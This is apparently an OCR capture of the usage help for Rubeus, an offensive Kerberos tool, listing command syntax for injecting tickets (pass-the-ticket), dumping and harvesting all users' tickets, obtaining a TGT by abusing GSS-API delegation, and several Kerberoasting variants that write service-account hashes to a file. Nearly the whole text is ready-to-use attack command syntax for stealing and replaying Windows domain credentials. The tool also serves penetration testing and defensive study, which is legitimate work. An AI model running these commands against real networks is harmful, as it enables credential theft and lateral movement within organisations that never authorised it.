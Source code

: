
     Ticket management:

        Submit a TGT, optionally targeting a specific LUID (if elevated):
            Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]

        Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
            Rubeus.exe purge [/luid:LOGINID]

        Parse and describe a ticket (service ticket or TGT):
            Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI> [/servicekey:HASH] [/krbkey:HASH] [/asrepkey:HASH] [/serviceuser:USERNAME] [/servicedomain:DOMAIN]


     Ticket extraction and harvesting:

        Triage all current tickets (if elevated, list for all users), optionally targeting a specific LUID, username, or service:
            Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        List all current tickets in detail (if elevated, list for all users), optionally targeting a specific LUID:
            Rubeus.exe klist [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
            Rubeus.exe dump [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM] [/nowrap]

        Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
            Rubeus.exe tgtdeleg [/target:SPN]

        Monitor every /interval SECONDS (default 60) for new TGTs:
            Rubeus.exe monitor [/interval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]

        Monitor every /monitorinterval SECONDS (default 60) for new TGTs, auto-renew TGTs, and display the working cache every /displayinterval SECONDS (default 1200):
            Rubeus.exe harvest [/monitorinterval:SECONDS] [/displayinterval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]


     Roasting:

        Perform Kerberoasting:
            Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

        Perform Kerberoasting, outputting hashes to a file:
            Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

        Perform Kerberoasting, outputting hashes in the file output format, but to the console:
            Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

        Perform Kerberoasting with alternate credentials:
            Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]
